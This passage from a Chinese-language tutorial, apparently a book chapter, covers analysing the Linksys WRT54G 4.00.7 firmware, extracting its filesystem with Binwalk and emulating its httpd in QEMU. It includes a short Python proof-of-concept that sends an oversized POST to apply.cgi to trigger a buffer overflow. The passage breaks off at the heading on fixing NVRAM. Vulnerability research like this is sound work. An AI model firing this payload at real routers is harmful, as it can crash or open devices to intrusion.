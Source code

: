 13.2.1　固件分析
-----------

* * *

下载Linksys WRT54G路由器4.00.7版本的固件，下载链接为[http://download.pchome.net/ driver/network/route/wireless/down-129948-2.html](http://download.pchome.net/%20driver/network/route/wireless/down-129948-2.html)，解压缩后得到固件WRT54GV3.1_4.00.7_US_ code.bin。 使用Binwalk将固件中的文件系统提取出来，如下图所示。

![图13-2>](http://drops.javaweb.org/uploads/images/efe6339e255cd5190b6b12f456c54c51d5589f35.jpg)

该漏洞的核心组件为 /usr/sbin/httpd，如下图所示。

![图13-3](http://drops.javaweb.org/uploads/images/6d8e0264f35160559a5ec19af8be03106ab01290.jpg)

13.2.2　修复运行环境
-------------

* * *

从漏洞公告中我们已经知道，当路由器HTTPD的apply.cgi处理脚本接收长度大于10 000字节的POST请求时会触发缓冲区溢出漏洞。该漏洞的测试POC如下。 源码　wrt54g_test.py

```
1 import sys
2 import urllib2 
3 try:
4     target = sys.argv[1]
5 except:
6     print "Usage: %s <target>" % sys.argv[0]
7     sys.exit(1) 
8 url = "http://%s/apply.cgi" % target
9 buf  = "\x42"*10000+"\x41"*0x4000      # POST parameter name 
10 req = urllib2.Request(url, buf)
11 print urllib2.urlopen(req).read()

```

*   第8行：访问存在漏洞的apply.cgi处理脚本。
*   第9行：构造超过10 000字节的数据（这里我们构造一段足够长的数据）。

当我们使用模拟器（QEMU）运行路由器中的应用程序（如这里的Web服务器）时，经常会遇到一个问题——模拟器缺乏硬件的模拟，导致程序无法执行。而需要执行的Web服务器就是应用程序试图采用NVRAM中的信息来配置参数，但由于找不到设备导致了错误的发生。在路由器中，常见的NVRAM动态库libnvram.so提供了`nvram_get()` 函数和`nvram_set()`函数来获取和设置配置参数。如果使用模拟器运行应用程序，会在调用`nvram_get()` 函数时失败，导致应用程序无法运行（因为模拟器中没有NVRAM）。使用如下命令运行HTTPD，如下图所示。

```
$ cp $(which qemu-mipsel) ./
$ chroot ./ ./qemu-mipsel ./usr/sbin/httpd
$ netstat -an|grep 80

```

![图13-4](http://drops.javaweb.org/uploads/images/291f083005b202012dda01da7486c5d650bcb5a4.jpg)

在运行的过程中可以看到，程序报错，提示找不到 /dev/nvram文件或目录，且使用netstat命令查看当前系统开放的端口时没有发现80端口，Web服务器启动失败。

### 1．修复NVRAM
